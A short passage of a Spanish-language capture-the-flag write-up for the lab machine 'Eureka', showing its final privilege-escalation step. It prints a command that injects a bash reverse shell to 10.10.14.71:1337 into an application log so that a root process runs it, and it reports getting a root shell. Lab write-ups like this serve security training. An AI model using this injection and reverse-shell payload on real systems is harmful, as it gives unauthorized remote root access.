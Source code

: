 ```bash

miranda-wise@eureka:~$ echo 'HTTP Status: x[$(/bin/bash -i >& /dev/tcp/10.10.14.71/1337 0>&1)]' > /var/www/web/user-management-service/log/application.log

```

Rápidamente o si no es que antes nos ponemos en escucha por el puerto que pusimos  y obtendremos nuestra reverse shell como root

![paste](./images/24.jpeg)

Y así Eureka is Pwned  se feliz hijo

![paste](./images/Eureka.jpeg)